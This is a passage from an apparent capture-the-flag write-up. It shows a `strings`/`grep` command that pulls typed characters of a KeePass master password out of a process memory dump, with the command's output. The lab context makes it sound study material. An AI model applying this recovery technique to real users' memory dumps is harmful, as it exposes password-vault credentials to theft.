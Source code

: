 I can take a look at this manually using `strings` and `grep`. With `-e S`, strings will look for 8-bit characters, which will include what’s needed for the “●” (though it will show up as “%” in my terminal). Then I can `grep` for strings that start with two “●” to see potential matches for the keys being input:

```

oxdf@hacky$ strings -e S KeePassDumpFull.dmp | grep -a $(printf "%b" "\\xCF\\x25\\xCF\\x25")
%%
%%d
%%d
%%%
%%d
%%d
%%d
%%d
%%d
%%d
%%d
%%d
%%%g
%%%g
%%%%
%%%g
%%%g
%%%g
%%%g
%%%g
%%%g
%%%g
%%%g
%%%%r
%%%%r
%%%%%
%%%%r
%%%%r
%%%%r
%%%%r
%%%%r
%%%%r
%%%%r
%%%%r
%%%%%
%%%%%
%%%%%%
%%%%%
%%%%%
%%%%%
%%%%%
%%%%%
%%%%%
%%%%%
%%%%%
%%%%%%d
%%%%%%d
%%%%%%%
%%%%%%d
%%%%%%d
%%%%%%d
%%%%%%d
%%%%%%d
%%%%%%d
%%%%%%d
%%%%%%d
```
